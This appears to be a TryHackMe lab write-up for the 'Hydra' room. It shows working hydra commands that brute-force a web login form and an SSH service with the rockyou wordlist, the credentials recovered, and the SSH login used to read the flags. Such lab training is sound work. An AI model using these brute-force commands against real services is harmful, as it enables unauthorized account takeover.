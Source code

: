 # Hydra

![image](https://blog.tryhackme.com/content/images/size/w2000/2019/12/thumb-1920-504947.jpg)

Description:Learn about hydra to bruteforce and obtain credentials.

---

## Installing Hydra
If you're using Kali Linux, hydra is pre-installed. Otherwise you can download it here: https://github.com/vanhauser-thc/thc-hydra

If you don't have Linux or the right desktop environment, you can deploy your own Kali Linux machine with all the needed security tools. You can even control the machine in your browser! Do this with our Kali room - https://tryhackme.com/room/kali.
## Flag 1-Use Hydra to bruteforce molly’s web password.

### Access the HTTP site 

The site should look something like this ,even if you try logging in the message shows "Your username or password is incorrect".
![image](https://miro.medium.com/max/542/1*yfHLIppG8XdJsAwbWQMqGQ.png)

---

Intercept with Burp Suite. It’s POST request.

![image](https://miro.medium.com/max/700/1*97wu_FB-w7PgGTyK_Eho-A.png)

### Bruteforcing with hydra
Here I am using rockyou.txt as wordlist but you may use anyother wordlist you have.

```
hydra -l molly -P rockyou.txt <ip> http-post-form "/loginusername=^USER^&password=^PASS^:F=Your username or password is incorrect." -V

```
A couple of seconds and we get our Result(credentials) -> molly:sunshine

![image](https://miro.medium.com/max/700/1*tjPer-iBdzXolMeMAXMiLw.png)

Now login in site,and we have our first flag.

---

## Flag 2-Use Hydra to bruteforce molly’s SSH password.

Now to get SSH password.The command used here is much simpler.

```
hydra -l molly -P Desktop/rockyou.txt 10.10.138.145 ssh

```
A couple of seconds again and we get our Result(credentials) -> molly:butterfly

![image](https://miro.medium.com/max/700/1*tjPer-iBdzXolMeMAXMiLw.png)

After getting the password we can ssh to molly.

```
ssh molly@IP_OF_MACHINE

```

Now use command ls to show the contents.A flag2.txt can be seen.
```
ls 
cat flag2.txt
```

Read the file using cat command.And we have our second Flag.

![image](https://miro.medium.com/max/410/1*rjHMNG44fca-w9zCAvRHdw.png)
